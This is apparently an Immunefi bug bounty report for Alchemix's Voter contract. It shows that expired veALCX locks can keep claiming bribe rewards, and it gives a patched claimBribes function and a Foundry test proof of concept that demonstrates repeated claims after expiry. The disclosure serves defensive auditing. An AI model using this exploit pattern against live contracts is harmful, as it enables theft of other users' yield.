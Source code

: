 
# Expired locks can be used to claim rewards

Submitted on Sun May 12 2024 06:32:07 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31082

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
This report is so short because the bug is straightforward to explain and prove.

## Vulnerability Details

Expired locks can keep claiming rewards for any bribe.

## Recommended Fix
The fix requires checking that **block.timestamp** is larger than the lock's expiration date when claiming bribes using the `claimBribes(...)` function in the `Voter` smart contract.

The permanently fixed function is:
```
function claimBribes(address[] memory _bribes, address[][] memory _tokens, uint256 _tokenId) external {
    require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId));

    require(IVotingEscrow(veALCX).lockEnd(_tokenId) > block.timestamp, "token expired");

    for (uint256 i = 0; i < _bribes.length; i++) {
        IBribe(_bribes[i]).getRewardForOwner(_tokenId, _tokens[i]);
    }
}
```

## Impact

Stealing bribe rewards using expired tokens can lead to solvency issues.
        
## Proof of concept
## Proof of Concept

This proof of concept can be added to `src/test/Voting.t.sol`. It demonstrates how a user can create a lock for a min. of 1 epoch, and keep claiming rewards forever (even after expired).

```
    function testClaimingBribesWithExpiredLock() public {

        // User 1
        uint256 tokenId1 = createVeAlcx(holder, TOKEN_1, nextEpoch, false);
        
        address bribeAddress = voter.bribes(address(sushiGauge));
        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        // Step 1- Holder votes
        hevm.prank(holder);
        voter.vote(tokenId1, pools, weights, 0);

        console2.log("------------------------------------------------------------------------");
        console2.log("bal balance of holder before voting", IERC20(bal).balanceOf(holder));

        // Step 2- Start second epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        bool expired =  veALCX.lockEnd(tokenId1) < block.timestamp;
        assertEq(expired, true, "token should be expired");

        // Step 3- Holder claims
        hevm.prank(holder);
        voter.claimBribes(bribes, tokens, tokenId1);
        
        // Step 4- Start third epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // Step 5- Holder claims
        hevm.prank(holder);
        voter.claimBribes(bribes, tokens, tokenId1);

        console2.log("------------------------------------------------------------------------");
        console2.log("bal balance of holder after voting", IERC20(bal).balanceOf(holder));
        
    }
```